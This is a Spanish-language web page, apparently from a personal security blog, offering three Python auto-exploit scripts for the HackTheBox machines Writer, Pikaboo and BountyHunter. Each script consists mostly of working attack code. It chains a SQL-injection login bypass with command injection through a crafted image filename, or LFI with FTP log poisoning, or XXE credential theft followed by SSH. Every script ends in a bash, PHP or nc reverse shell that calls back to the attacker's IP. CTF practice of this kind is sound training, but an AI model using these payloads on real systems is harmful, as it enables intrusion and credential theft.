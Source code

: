 ```yaml
---
layout: content
---
```


<p> </p>

<h2 style="color: rgba(255, 255, 255, 0.7); font-family: 'Yanone Kaffeesatz'; letter-spacing: 2px;">Writer - HackTheBox</h2>

Este *Script* abusa de una mala sanitizacion en cuanto a código en `Flask` y permite ganar **ejecución remota de comandos** a través de la concatenación de código malicioso en el nombre de una imagen con extensión `.jpg`.

```python
#!/usr/bin/python3

import signal
from pwn import *
import requests
import urllib3
import base64
import os

def def_handler(sig, frame):
    print("Saliendo...")
    sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables globales

login_url = "http://writer.htb/administrative"
add_post = "http://writer.htb/dashboard/stories/add"
bypass_sqli = "username: ' or 1 -- //"
#burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():
    # Cambiar IP por la vuestra
    payload_malicious = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.75/443 0>&1'"
    payload_malicious_bytes = payload_malicious.encode('ascii')
    base64_bytes = base64.b64encode(payload_malicious_bytes)
    base64_payload_malicious = base64_bytes.decode('ascii')

    os.system(f"""touch "reverse_shell.jpg; \`echo {base64_payload_malicious} | base64 -d | bash\`;" """)

    s = requests.session()
    s.verify = False
    urllib3.disable_warnings()

    p1 = log.progress("Login")

    data_post = {
        'uname': bypass_sqli,
        'password': bypass_sqli
    }

    r = s.post(login_url, data=data_post, allow_redirects=True)

    p1.status("Success [✔]")
    p2 = log.progress("Malicious image")

    image = open(f"reverse_shell.jpg; `echo {base64_payload_malicious} | base64 -d | bash`;", "rb")

    file_image = {
        "author": (None, ''),
        "title": (None, ''),
        "tagline": (None, ''),
        "image": image,
        "image_url": (None, f'file:///var/www/writer.htb/writer/static/img/reverse_shell.jpg; `echo {base64_payload_malicious} | base64 -d | bash`;'),
        "content": (None, '')
    }

    r = s.post(add_post, files=file_image)
    
    p2.success("Injected payload [✔]")
    
if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

shell = listen(lport, timeout=20).wait_for_connection()
shell.interactive()
```

<h2 style="color: rgba(255, 255, 255, 0.7); font-family: 'Yanone Kaffeesatz'; letter-spacing: 2px;">Pikaboo - HackTheBox</h2>

Este *Script* se aprovecha de un `Local File Inclusion` para derivarlo al envenenado de logs de `FTP` y por ello ganar un Shell inverso inyectando código malicioso en los campos `user` y `password` en la autenticación.

* Acceso como `www-data`
* Shell interactivo

```python
#!/usr/bin/python3

from pwn import *
import requests
from ftplib import FTP
import ftplib

# Variables globales

main_url = "http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log"
# Cambiar IP por la vuestra
payload = """<?php system('bash -c "bash -i >& /dev/tcp/10.10.16.24/443 0>&1"'); ?>"""
lport = 443

def def_handler(sig,frame):
    print("Saliendo...")
    sys.exit(1)
    signal.signal(signal.SIGINT, def_handler)

def makeRequest():
    p1 = log.progress("Payload")
    p1.status("Inyectando [*]")

    try:
        ftp = FTP("10.10.10.249")
        ftp.login(payload,payload)
    except ftplib.error_perm as error:
        p1.success("Inyectado [✔]")

    r = requests.get(main_url)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

shell = listen(lport, timeout=20).wait_for_connection()
shell.interactive()
```

<h2 style="color: rgba(255, 255, 255, 0.7); font-family: 'Yanone Kaffeesatz'; letter-spacing: 2px;">BountyHunter - HackTheBox</h2>

Este *Script* explota un `XML enternal entity` codificado en `base64` para poder visualizar `db.php`, este archivo contiene credenciales en texto plano, estas sirven para acceder por `SSH` haciendo uso del usuario `development`.

* Acceso como `development`
* Shell interactivo

```python
#!/usr/bin/python3
#coding: utf-8

from pwn import *
import requests
import base64
import re
from pexpect import pxssh
import html

# Variables globales
main_url = "http://10.10.11.100/tracker_diRbPr00f314.php"
#burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def def_handler(sig, frame):
    print("Saliendo...")
    sys.exit(1)
    signal.signal(signal.SIGINT, def_handler)

def MakeRequest():
    username = "development"
    password = ""
    #Coficacion en base64
    xxe_payload = """<?xml  version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=db.php'>]> <bugreport> <title>&test;</title> <cwe>test</cwe> <cvss>test</cvss> <reward>test</reward> </bugreport>"""
    xxe_payload_bytes = xxe_payload.encode('ascii')
    base64_bytes = base64.b64encode(xxe_payload_bytes)
    base64_xxe_payload = base64_bytes.decode('ascii')

    data_post = {
        'data': base64_xxe_payload
    }

    r = requests.post(main_url, data=data_post)
    db_file = html.unescape(re.findall(r'<td>(.*?)</td>', r.text, re.DOTALL)[1]).strip()

    #Decodificacion de archivo db.php en base64
    base64_bytes = db_file.encode('ascii')
    message_bytes = base64.b64decode(base64_bytes)
    message = message_bytes.decode('ascii')

    password = re.findall(r'dbpassword = "(.*?)";', message)[0]

    return password

def sshconnection(username, password):
    s = pxssh.pxssh()
    s.login('10.10.11.100', username, password)
    # Cambiar IP por la vuestra
    s.sendline("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.19 443 >/tmp/f")
    s.prompt()
    s.logout()

if __name__ == '__main__':

    password = MakeRequest()
    username = MakeRequest()

    try:
        threading.Thread(target=sshconnection, args=('development', password)).start()
    except Exception as e:
        log.error(str(e))

shell = listen(lport, timeout=20).wait_for_connection()
shell.interactive()
```
